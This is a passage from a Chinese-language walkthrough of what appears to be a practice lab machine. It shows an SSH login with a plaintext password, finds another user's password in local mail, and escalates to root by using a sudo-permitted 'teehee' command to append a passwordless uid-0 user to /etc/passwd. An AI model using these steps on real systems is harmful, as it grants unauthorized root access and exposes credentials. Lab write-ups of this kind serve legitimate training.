 ssh连接

```
ssh jim@192.168.10.191
密码：jibril04
```

![image-20211221183312896](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221183312896.png)

连接成功



查看mbox,发现是发给jim的一封邮件的一些描述

![image-20211221214637420](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221214637420.png)

去/var/mail查看邮件

![image-20211221214809599](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221214809599.png)

在这可以看到有charles 的密码`^xHhA&hvim0y`

## 提权

切换用户

```
su charles
```

![image-20211221215116931](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221215116931.png)

切换成功！

尝试sudo提权

```
sudo -l
```

![image-20211221220600021](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221220600021.png)

发现该用户有一个root权限的命令:teehee

> teehee命令可以写入文件内容并不覆盖文件原有内容
>
> 使用teehee命令将一个无密码用户admin写入到/etc/passwd文件，并加入到root组中
>
> 格式:   
>
> 用户名:是否有密码保护(x即有保护):uid:gid:全称:home目录:/bin/bash

用该命令提权

```
echo "hacker::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
